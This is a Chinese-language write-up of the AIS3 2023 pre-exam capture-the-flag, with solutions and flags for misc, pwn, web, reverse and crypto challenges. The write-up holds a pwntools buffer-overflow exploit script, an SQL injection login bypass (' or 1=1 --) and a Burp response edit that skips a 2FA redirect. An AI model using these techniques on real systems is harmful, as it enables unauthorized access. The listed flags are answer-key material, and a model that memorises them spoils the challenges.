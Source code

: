 # AIS3 2023 pre-exam writeup

> [name= 劉浩恩]
    
<br>
    
## Misc
---

- ### Welcome

開啟welcome.pdf，並參考提示。

**flag**:
```
AIS3{WELCOME-TO-2023-PRE-EXAM-&-MY-FIRST-CTF}
```

- ### Robot

`nc chals1.ais3.org 12348` 後回答問題，最後得出**flag**:
```
AIS3{don't_eval_unknown_code_or_pipe_curl_to_sh}  
```
<br>
    
## Pwn
---

- ### Simply Pwn

使用IDA pro 反編譯，發現可以利用buffer overflow，填入79個字元後buffer被填滿，此時可以使其跳到chellcode位置(0x4017a5)，並傳入指令 `cat ./FLAG`，程式碼如下:

```
from pwn import *

p = remote("chals1.ais3.org", 11111)


payload = b"A" * 79 
payload += p64(0x4017a5)  
p.sendline(payload)
f='cat ./FLAG'
p.sendline(f)
response = p.recvline()


print(response)


p.interactive()

```
得到**flag:**
```
AIS3{5imP1e_Pwn_4_beGinn3rs!}
```

<br>

## Web
---

- ### Login Panel

先使用Username:`guset`，Password:`guset`，查看結構。
發現網頁會先跳到2fa頁面，再進入Dashboard，且其告知:
Only admin can see the flag.

查看app.js，發現可以利用injection，Username:`admin`，Password:`' or 1=1 --`進入2fa頁面，但Submit時出現Invalid code。

利用Burp Suite更改response的封包，將 `Location: /2fa?msg=invalid_code` 改為 `Location: /dashboard`。

成功進入 admin 的 dashboard，得到**flag**:
```
 AIS3{' UNION SELECT 1, 1, 1, 1 WHERE ({condition})--}
```     
<br> 
    
## Reverse 
---

- ### Simply Reverse
使用 IDA pro 反編譯，發現程式檢查最後輸入:`encrypted[i] == (((i ^ j)) << ((i ^ 9) & 3) | ((i ^ j)) >> (8 - ((i ^ 9) & 3))) + 8`

使用暴力破解回推，但發現有的字元無法回推到明文，推測是加密後的值超過16bits，但程式中的encrypted只記錄後16bits。

故修改程式碼，若16bit無法找到明文，便往上從17個bits開始檢查，程式碼如下:
```

encrypted = [0x8A, 0x50, 0x92, 0xC8, 0x06, 0x3D, 0x5B, 0x95, 0xB6, 0x52, 0x1B, 0x35, 0x82, 0x5A, 0xEA, 0xF8,
0x94, 0x28, 0x72, 0xDD, 0xD4, 0x5D, 0xE3, 0x29, 0xBA, 0x58, 0x52, 0xA8, 0x64, 0x35, 0x81, 0xAC, 0x0A, 0x64]

a1 = [0] * len(encrypted)
i = 0

while i < 34:
for j in range(256):
if encrypted[i] == (((i ^ j)) << ((i ^ 9) & 3) | ((i ^ j)) >> (8 - ((i ^ 9) & 3))) + 8:
a1[i] = j
break
while a1[i] == 0:
encrypted[i] += 0x100
for j in range(256):
if encrypted[i] == (((i ^ j)) << ((i ^ 9) & 3) | ((i ^ j)) >> (8 - ((i ^ 9) & 3))) + 8:
a1[i] = j
break

i += 1
a1 = ''.join(chr(num) for num in a1)
print(a1) 
```

得到**flag**:
```
AIS3{0ld_Ch@1_R3V1_fr@m_AIS32016!}
```

- ### Flag Sleeper

使用IDA pro 反編譯，發現程式在`a2[1][v7] == (v10[v6] ^ v9[v6]) ` 的條件之下才會執行sleep()。
故推測值為0~52的`v8[]`為明文的index，故將`v10[] ^ v9[]`後依`v8[]`的值排列，程式碼如下:
```
v8 = [10, 12, 28, 7, 38, 31, 47, 44, 42, 35, 48, 30, 21, 11, 17, 16, 34, 40, 33, 39, 41, 9, 22, 4, 6, 20, 19, 46, 23, 45, 26, 0, 15, 3, 8, 43, 14, 5, 2, 27, 49, 1, 51, 36, 37, 24, 25, 50, 32, 13, 29, 18]
v9 = [212, 232, 164, 28, 253, 132, 194, 47, 46, 150, 96, 216, 121, 216, 140, 164, 49, 219, 147, 252, 201, 28, 9, 188, 155, 79, 133, 255, 104, 20, 87, 64, 147, 143, 68, 147, 142, 96, 165, 244, 62, 58, 119, 25, 61, 56, 71, 182, 7, 37, 1, 154]
v10  = [237, 217, 212, 40, 149, 219, 165, 112, 29, 241, 8, 189, 13, 224, 211, 149, 5, 184, 255, 207, 162, 122, 86, 199, 170, 122, 240, 206, 9, 102, 102, 1, 163, 188, 119, 225, 239, 3, 246, 153, 9, 115, 10, 70, 94, 103, 52, 137, 97, 29, 109, 208]
v11=[0]*60

for i in range(len(v8)):
    x = v8[i]
    v11[x]=v10[i]^v9[i]

v11 = ''.join([chr(i) for i in v11])
print(v11)

```

得到**flag**:
```
AIS3{c143f9818a01_Ju5t_a_s1mple_fl4g_ch3ck3r_r1gh7?}
```    
<br>
      
## Crypto
---

- ### Fernet

檢查 `chal.py` 的 `encrypt()`，其步驟如下:

1. 其使用 leak_password 和 salt 透過 PBKDF2 和 SHA256 生成一個 32 byte 的 key。
2. 然後使用生成的key 作為 Fernet 的參數。
3. 將明文編碼，並使用 Fernet() 後的值對其進行加密，得到密文。
5. 將 salt 和密文連接，並進行 Base64 編碼，得到最終的密文。

反推程式碼如下:
```
import base64
from cryptography.fernet import Fernet
from Crypto.Hash import SHA256
from Crypto.Protocol.KDF import PBKDF2

def decrypt(ciphertext, password):
    decoded_data = base64.b64decode(ciphertext.encode())
    salt = decoded_data[:16]
    ciphertext = decoded_data[16:]
    key = PBKDF2(password.encode(), salt, 32, count=1000, hmac_hash_module=SHA256)
    f = Fernet(base64.urlsafe_b64encode(key))
    plaintext = f.decrypt(ciphertext).decode()
    return plaintext

ciphertext = "iAkZMT9sfXIjD3yIpw0ldGdBQUFBQUJrVzAwb0pUTUdFbzJYeU0tTGQ4OUUzQXZhaU9HMmlOaC1PcnFqRUIzX0xtZXg0MTh1TXFNYjBLXzVBOVA3a0FaenZqOU1sNGhBcHR3Z21RTTdmN1dQUkcxZ1JaOGZLQ0E0WmVMSjZQTXN3Z252VWRtdXlaVW1fZ0pzV0xsaUM5VjR1ZHdj"
leak_password = "mysecretpassword"


plaintext = decrypt(ciphertext, leak_password)
print(plaintext)

```

得到**flag**:
```
FLAG{W3lc0m3_t0_th3_CTF_W0rld_!!_!!!_!}
```
